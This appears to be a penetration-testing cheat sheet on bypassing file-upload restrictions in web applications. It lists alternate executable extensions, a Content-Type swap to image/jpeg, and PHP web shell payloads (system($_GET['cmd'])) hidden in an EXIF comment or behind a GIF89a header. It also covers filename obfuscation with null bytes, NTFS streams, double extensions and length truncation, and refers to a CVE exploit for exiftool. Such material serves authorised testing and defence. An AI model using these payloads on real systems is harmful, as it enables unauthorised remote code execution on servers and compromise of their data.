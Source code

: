 ## Bypassing File Extension Restrictions  

### Alternate extensions
|Type|Extension|
|---|---|
|php|.phptm, phtml, .shtml, .htaccess, .phar, .php, .php2, .php3, .php4, .php5, .php6, .php7, phps, .pht, and .inc|
|asp|asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, cshtm, .cshtml, .rem, .soap, .vhbtm, .vbhtml, .vbhtml, .asa, .cer, .shtml |
|perl|.pl, .pm, .cgi, .lib|
|jsp|.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action|
|Coldfusion|.cfm, .cfml, .cfc, .dbm|
|flash|.swf|
|Erlang Yaws Web Server| .yaws|

### Mime Types
`Content-type: application/x-php`  
Replace with:  
`Content-type: image/jpeg`

### PHP getimagesize()
For file uploads which validate image size using php getimagesize(), it may be possible to execute shellcode by inserting it into the Comment attribute of Image properties and saving it as file.jpg.php.
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
mv file.jpg file.php.jpg
```
### exiftool
Exiftool versions 7.44-12.23 are vulnerable to remote code execution. [CVE-2021-22204](https://github.com/se162xg/CVE-2021-22204).  There is also a metasploit module available.

### GIF89a; header
GIF89a is a GIF file header. If uploaded content is being scanned, sometimes the check can be fooled by putting this header item at the top of shellcode:
```
GIF89a;
<?
system($_GET['cmd']); # shellcode goes here
?>
```
### File Extension Obfuscation

* Use camelcase 
     * .pHp
     * .pHpS
* Add valid extensions before the execution extension
     * file.jpg.php
* Add Special Characters to the end
     * file.php%20
     * file.php%0a
     * file.php%00
     * file.php%0d%0a
     * file.php/
     * file.php.\
     * file.
     * file.php....
     * file.pHp5....
* Double extensions or add junk
     * file.png.php
     * file.png.pHp5
     * file.php%00.png
     * file.php\x00.png
     * file.php%0a.png
     * file.php%0d%0a.png
     * file.phpJunk123png
 * Add another layer of extensions to the previous check:
     * file.png.jpg.php
     * file.php%00.png%00.jpg
 * place the exec extension before the valid extension
     * file.php.png
 * Use NTFS Alternate data streams (ADS)
     * file.asp::jpg
     * file.asp::$data
 * Use long filenames to overrun the filename limitation and truncate the valid extension
 ```
 # Linux maximum 255 bytes
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # minus 4 here and adding .png
# Upload the file and check response how many characters it alllows. Let's say 236
python -c 'print "A" * 232'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Make the payload
AAA<--SNIP 232 A-->AAA.php.png
```
